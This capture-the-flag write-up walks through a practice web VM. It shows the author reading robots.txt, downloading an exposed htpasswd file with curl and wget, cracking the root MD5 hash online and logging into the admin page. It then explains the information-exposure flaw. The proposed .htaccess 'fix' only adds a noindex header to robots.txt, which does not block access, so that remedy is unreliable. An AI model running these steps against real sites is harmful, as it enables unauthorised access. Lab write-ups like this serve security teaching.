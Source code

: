 # Admin(htpasswd)

If we go to <http://[VM_IP]/robots.txt> we will find 2 folders disallowed - `/whatever` and `/.hidden`.

![whatever](./img/whatever.png)

Let's check <http://[VM_IP]/whatever/>

```
daniseed@DESKTOP:~/darkly$  curl -v [VM_IP]/whatever/
*   Trying [VM_IP]:80...
* TCP_NODELAY set
* Connected to [VM_IP] ([VM_IP]) port 80 (#0)
> GET /whatever/ HTTP/1.1
> Host: [VM_IP]
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:25:44 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
<
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>
* Connection #0 to host [VM_IP] left intact


*   Trying [VM_IP]:80...
* TCP_NODELAY set
* Connected to [VM_IP] ([VM_IP]) port 80 (#0)
> GET /whatever/htpasswd HTTP/1.1
> Host: [VM_IP]
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:26:29 GMT
< Content-Type: application/octet-stream
< Content-Length: 38
< Last-Modified: Tue, 29 Jun 2021 18:09:05 GMT
< Connection: keep-alive
< ETag: "60db61c1-26"
< Accept-Ranges: bytes
<
root:437394baff5aa33daa618be47b75cb49
* Connection #0 to host [VM_IP] left intact
```

OR

```
daniseed@DESKTOP:~/darkly$ wget http://[VM_IP]/whatever/htpasswd
--2023-05-09 18:05:11--  http://[VM_IP]/whatever/htpasswd
Connecting to [VM_IP]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38 [application/octet-stream]
Saving to: ‘htpasswd’

htpasswd                          100%[==========================================================>]      38  --.-KB/s    in 0s

2023-05-09 18:05:11 (2.11 MB/s) - ‘htpasswd’ saved [38/38]



daniseed@DESKTOP:~/darkly$ cat htpasswd
root:437394baff5aa33daa618be47b75cb49
```

We have login-password combination: `root:437394baff5aa33daa618be47b75cb49`

But it doesn't work on its own. So lets try and dehash it with [crackstation](https://crackstation.net/).
The password is encrypted with md5 - `qwerty123@`

Input this on <http://[VM_IP]/admin/> and we have our flag

![rootLogin](./img/rootLogin.png)

![flag](./img/flag.png)

## Explanation

Attack type: [Information exposure](https://cwe.mitre.org/data/definitions/200.html): robots.txt

> The file robots.txt is used to give instructions to web robots, such as search engine crawlers, about locations within the web site that robots are allowed, or not allowed, to crawl and index. It is often used to identify restricted or private areas of a site's contents. The information in the file may therefore help an attacker to map out the site's contents, especially if some of the locations identified are not linked from elsewhere in the site. If the application relies on robots.txt to protect access to these areas, and does not enforce proper access control over them, then this presents a serious vulnerability. [more](https://portswigger.net/kb/issues/00600600_robots-txt-file)

So the robots.txt file is often used as a primary source of information about hidden areas of the web site.

## How to fix it

>  You should not assume that all web robots will honor the file's instructions. Rather, assume that attackers will pay close attention to any locations identified in the file. Do not rely on robots.txt to provide any kind of protection over unauthorized access.

By adding this code to .htaccess file we can close robots.txt from indexing and following the hyperlink
```
<FilesMatch "robots.txt">
	Header set X-Robots-Tag "noindex, nofollow"
</FilesMatch>
```
